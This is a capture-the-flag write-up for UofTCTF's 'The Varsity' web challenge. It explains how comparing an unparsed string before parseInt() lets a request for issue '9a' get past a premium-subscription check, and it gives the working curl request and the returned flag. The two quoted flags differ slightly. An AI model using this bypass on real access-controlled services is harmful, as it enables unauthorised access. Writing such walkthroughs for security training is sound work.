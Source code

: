 # The Varsity

Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.

Author: SteakEnthusiast

`export URL=uoftctf-the-varsity.chals.io`

## Initial Thoughts

I started with opening the url and got this register form:

![Registration Form](images/reg-form.png)

I then tried to sign in with username as `admin` without checking the voucher checkbox and got this in return

![Index Page](images/index.png)

## Inspecting src

Checking the `server.js` file, we can find some interesting things:

1. The flag is loaded from .env, this can also be seen in the Dockerfile.
   `const FLAG = process.env.FLAG || "uoftctf{this_is_a_fake_flag}";`

2. The flag can be found in the 10th article but there are some checks, like being "premium".

```
 {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
```

3. The auth is done with JWT tokens.

4. This piece of code where you can use a voucher to be "premium", meaning you'll be able to view the article with the flag.

`const subscription = voucher === FLAG + JWT_SECRET ? "premium" : "guest";`

5. Finally, this route that contains the logic for retrieving an article.

```js
app.post("/article", (req, res) => {
	const token = req.cookies.token;

	if (token) {
		try {
			const decoded = jwt.verify(token, JWT_SECRET);

			let issue = req.body.issue;

			if (req.body.issue < 0) {
				return res.status(400).json({ message: "Invalid issue number" });
			}

			if (decoded.subscription !== "premium" && issue >= 9) {
				return res
					.status(403)
					.json({ message: "Please subscribe to access this issue" });
			}

			issue = parseInt(issue);

			if (Number.isNaN(issue) || issue > articles.length - 1) {
				return res.status(400).json({ message: "Invalid issue number" });
			}

			return res.json(articles[issue]);
		} catch (error) {
			res.clearCookie("token");
			return res.status(403).json({ message: "Not Authenticated" });
		}
	} else {
		return res.status(403).json({ message: "Not Authenticated" });
	}
});
```

The route gets the `issue` which is the article number from the request. It then checks, using the JWT token whether the user has a "premium subscription". After that, the value is parsed with parseInt and is now used for checks.

Now, my idea here is I need to pass the `if (decoded.subscription !== "premium" && issue >= 9)` check. So, since I cant change my subscription, I should try to make `issue >= 9` be false.

Then, theres the seemingly out of place parseInt(). With this, we have found the vulnerability.

We can pass `9a` as the issue number so when comparing `'9a' >= 9`, comparison of string to int would be false. But then, the value would become `int 9` after the parseInt().

Trying this with a quick curl:
`curl uoftctf-the-varsity.chals.io/article -d {"issue":"9a"}`

```
curl https://uoftctf-the-varsity.chals.io/article \
  -H "Content-Type: application/json" \
  -d '{"issue":"9a"}' \
  -b "token=COOKIE_VALUE"
```

We get this as a result:
`{"title":"UofT Hosts its 2nd Inaugural Capture the Flag Event","content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"`

FLAG: uoftctf{w31rd_b3h4v10r_0f_parseInt()}
